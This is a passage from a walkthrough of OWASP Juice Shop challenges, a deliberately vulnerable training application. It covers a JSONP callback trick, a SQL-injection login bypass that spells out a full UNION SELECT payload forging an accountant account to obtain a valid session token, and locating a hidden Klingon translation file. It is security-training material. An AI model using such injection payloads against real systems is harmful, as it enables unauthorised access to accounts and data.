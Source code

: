     ![Normal whoami call](media/blog4/normal_whoami.png)
    
2. Add a URL parameter called "callback". This will cause the API to return the content as a JavaScript fragment (JSONP) rather than just a standard JSON object.
    
    ![whoami call using JSONP](media/blog4/jsonp_whoami.png)
    

### **Log in with the (non-existing) accountant without ever registering that user**

1. Go to [http://localhost:3000/#/login](http://localhost:3000/#/login) and try logging in with *Email* `'` and any *Password* while observing the Browser DevTools network tab.
2. You will notice the SQL query for the login in the error being thrown: `"sql": "SELECT * FROM Users WHERE email = ''' AND password = '339df5aeae5bc6ae557491e02619c5dd' AND deletedAt IS NULL"`
3. Solve [Exfiltrate the entire DB schema definition via SQL Injection](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_exfiltrate_the_entire_db_schema_definition_via_sql_injection) to learn the exact column names of the `Users` table.
4. Prepare a `UNION SELECT` payload what will a) ensure there is no result from the original query and b) will add the needed user on-the-fly using static values in the query.
5. Log in with *Email* `' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', '[acc0unt4nt@juice-sh.op](mailto:acc0unt4nt@juice-sh.op)' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--`
6. This will trick the application backend into handing out a valid JWT token and thus establishing a user session.

### **Retrieve the language file that never made it into production**

1. Monitoring the HTTP calls to the backend when switching languages tells you how the translations are loaded:
    - [http://localhost:3000/i18n/en.json](http://localhost:3000/i18n/en.json)
    - [http://localhost:3000/i18n/de_DE.json](http://localhost:3000/i18n/de_DE.json)
    - [http://localhost:3000/i18n/nl_NL.json](http://localhost:3000/i18n/nl_NL.json)
    - [http://localhost:3000/i18n/zh_CN.json](http://localhost:3000/i18n/zh_CN.json)
    - [http://localhost:3000/i18n/zh_HK.json](http://localhost:3000/i18n/zh_HK.json)
    - etc.
2. It is obvious the language files are stored with the official *locale* as name using underscore notation.
3. Nonetheless, even brute forcing all thinkable locale codes (`aa_AA`, `ab_AA`, …, `zz_ZY`, `zz_ZZ`) would still **not** solve the challenge.
4. The hidden language is *Klingon* which is represented by a three-letter code `tlh` with the dummy country code `AA`.
5. Request [http://localhost:3000/i18n/tlh_AA.json](http://localhost:3000/i18n/tlh_AA.json) to solve the challenge. majQa'!

Instead of expanding your brute force pattern (which is not a very obvious decision to make) you can more easily find the solution to this challenge by investigating which languages are supported in the Juice Shop and how [the translations](https://pwning.owasp-juice.shop/companion-guide/latest/part3/translation.html#_helping_with_translations) are managed. This will quickly bring you over to [https://crowdin.com/project/owasp-juice-shop](https://crowdin.com/project/owasp-juice-shop) which immediately spoilers *Klingon* as a supported language. Hovering over the corresponding flag will eventually spoiler the language code `tlh_AA`.

